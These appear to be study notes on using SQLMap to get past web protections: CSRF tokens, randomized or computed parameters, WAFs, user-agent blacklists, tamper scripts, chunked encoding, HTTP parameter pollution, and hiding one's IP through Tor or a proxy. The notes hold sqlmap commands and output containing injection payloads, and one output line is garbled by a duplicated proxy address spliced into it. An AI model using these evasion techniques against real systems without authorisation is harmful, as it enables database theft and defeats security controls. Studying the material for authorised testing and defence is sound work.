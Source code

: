 ## Anti-CSRF Token Bypass
* SQLMap has options that can help in bypassing anti-CSRF protection
* Most important option is `--csrf-token`

```sh
$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

## Unique Value Bypass
* Web application may only require unique values to be provided inside predefined parameters
	* Similar to the anti-CSRF technique
* The option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent

```sh
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

## Calculated Parameter Bypass
* Web application expects a proper parameter value to be calculated based on some other parameter value(s)
* Most often md5 over some attribute e.g. `h=MD5(id)`
* Option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target

```shell-session
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

## IP Address Concealing
* If we want to conceal our IP address, or we are blacklisted, we can try to use a proxy or the anonymity network Tor  `--tor` or `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`) or a proxy list  `--proxy-file`
* We can check if tor is working correctly by using  `--check-tor`

## WAF Bypass
* SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall)
	* If popular WAF solution is used  `406 - Not Acceptable` response after such a request
	* SQLMap uses a third-party library [identYwaf](https://github.com/stamparm/identYwaf) to identify which one is used
* We can skip this heuristic test with `--skip-waf`

## User-agent Blacklisting Bypass
* If we get HTTP error code 5XX from the start
	* Potential blacklisting of the default user-agent used by SQLMap (e.g. `User-agent: sqlmap/1.4.9 (http://sqlmap.org)`)
* Bypass with the switch `--random-agent`

**Note**: If some form of protection is detected during the run, we can expect problems with the target, even other security mechanisms. The main reason is the continuous development and new improvements in such protections, leaving smaller and smaller maneuver space for attackers.

## Tamper Scripts
* One of the most popular mechanisms implemented to bypass WAF/IPS
* Special kind of (Python) scripts written for modifying requests just before being sent to the target
	* Most popular tamper scripts [between](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py)
	* Replaces all occurrences of greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`
* Many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed
* Can be chained  `--tamper` option (e.g. `--tamper=between,randomcase`)
* Most notable tamper scripts (`--list-tampers`)

![](../../Screenshots/Screenshot_2022-10-26_014706.png)

## Miscellaneous Bypasses
* `Chunked` transfer encoding, turned on using the switch `--chunked`
	* Splits the POST request's body into so-called "chunks"
* Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed
* `HTTP parameter pollution` (`HPP`)
	* Payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`)